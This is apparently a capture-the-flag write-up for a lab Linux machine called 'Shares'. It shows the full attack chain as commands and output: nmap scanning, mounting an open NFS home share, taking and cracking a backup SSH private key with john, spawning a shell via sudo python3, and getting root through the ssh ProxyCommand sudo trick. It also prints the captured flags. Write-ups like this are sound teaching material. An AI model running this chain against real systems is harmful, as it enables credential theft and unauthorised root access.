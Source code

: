 ```yaml
---
tags: [Beginner, Linux]
title: Shares
created: '2020-05-25T19:25:40.092Z'
modified: '2020-05-25T20:19:55.414Z'
---
```


# Shares
- IP: `172.31.1.7`
- OS: Linux
## Enumeration
### Writeup
We run NMAP and get all the open ports.

Since we have nfs ports open, we try to figure out if there's any shares we can mount with `showmount`. That shows use that `/home/amir` is accessible to `*.*.*.*`.
Let's try and mount that by executing `mount -t nfs 172.31.1.7:/home/amir /mnt/Shares`. We can now read the files in `/mnt/Shares`.
The folder that is the most interesting is the `.ssh` folder, containing an authorized_keys file and corresponding keys, but we can only read the `.bak` version, which still contains a private key.
We also found ssh running on a higher port. We set the permissions of the key to `700` but when we try to use the private key to log in (`ssh -i id_rsa.bak amir@172.31.1.7 -p 27853`), we get asked for a password, which we currently don't have.
The next idea is to crack the private key with john but first we need to convert the key to a hash with `ssh2john`. After running john on that, we get a password `hello6`, which we can use to log in as amir!
### Commands
#### NMap
- `nmap -p 1-65535 -T4 -A -v 172.31.1.7`
```xml
PORT      STATE    SERVICE  VERSION
21/tcp    open     ftp      vsftpd 3.0.3
80/tcp    open     http     Apache httpd 2.4.29 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET POST OPTIONS HEAD
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Pet Shop
111/tcp   open     rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100003  3           2049/udp   nfs
|   100003  3           2049/udp6  nfs
|   100003  3,4         2049/tcp   nfs
|   100003  3,4         2049/tcp6  nfs
|   100005  1,2,3      34883/udp   mountd
|   100005  1,2,3      40303/udp6  mountd
|   100005  1,2,3      41611/tcp6  mountd
|   100005  1,2,3      47897/tcp   mountd
|   100021  1,3,4      42653/tcp6  nlockmgr
|   100021  1,3,4      43947/tcp   nlockmgr
|   100021  1,3,4      47799/udp   nlockmgr
|   100021  1,3,4      55090/udp6  nlockmgr
|   100227  3           2049/tcp   nfs_acl
|   100227  3           2049/tcp6  nfs_acl
|   100227  3           2049/udp   nfs_acl
|_  100227  3           2049/udp6  nfs_acl
2049/tcp  open     nfs_acl  3 (RPC #100227)
27853/tcp open     ssh      OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 97:93:e4:7f:41:79:9c:bd:3d:d8:90:c3:93:d5:53:9f (RSA)
|   256 11:66:e9:84:32:85:7b:c7:88:f3:19:97:74:1e:6c:29 (ECDSA)
|_  256 cc:66:1e:1a:91:31:56:56:7c:e5:d3:46:5d:68:2a:b7 (ED25519)
32195/tcp filtered unknown
37623/tcp open     mountd   1-3 (RPC #100005)
37653/tcp open     mountd   1-3 (RPC #100005)
43947/tcp open     nlockmgr 1-4 (RPC #100021)
47897/tcp open     mountd   1-3 (RPC #100005)
```
#### ShowMount
- `showmount -e 172.31.1.7`
```bash
Export list for 172.31.1.7:
/home/amir *.*.*.*
```
#### Mount
`mount -t nfs 172.31.1.7:/home/amir /mnt/Shares`
#### SSH
`ssh -i id_rsa.bak amir@172.31.1.7 -p 27853`
#### ssh2john
`/usr/share/john/ssh2john.py fromServer/id_rsa.bak > amir_ssh_hash`
#### john
`john --wordlist=/usr/share/wordlists/rockyou.txt amir_ssh_hash`
-> `hello6`

## Enumeration as Amir
### Writeup
We run LinPEAS and immediately notice we're part of the `sudo` group, but sadly, without knowing the current password, that doesn't really help us.
From doing `sudo -l`, we see we can run `pkexec` and `python3` as `amy` and get a shell as her by doing `sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'`.

Here we find `access.txt`: `dc17a108efc49710e2fd5450c492231c`
But before we move on, let's built some persistence in by uploading our private key to the server so we can ssh in as `amy`.
### Commands
#### Sudo
- `sudo -l`
```bash
    (amy) NOPASSWD: /usr/bin/pkexec
    (amy) NOPASSWD: 
```
- `sudo -u amy /usr/bin/python3 -c 'import os; os.system("/bin/bash")'`

## Enumeration as Amy
### Writeup
We run `sudo -l` and see that we can run `ssh` as `root`.
We can easily get a root shell from the code from [GTFOBins](https://gtfobins.github.io/gtfobins/ssh/#sudo)

We can now get `system.txt`: `b910aca7fe5e6fcb5b0d1554f66c1506`
### Commands
#### SSH
- `sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x`
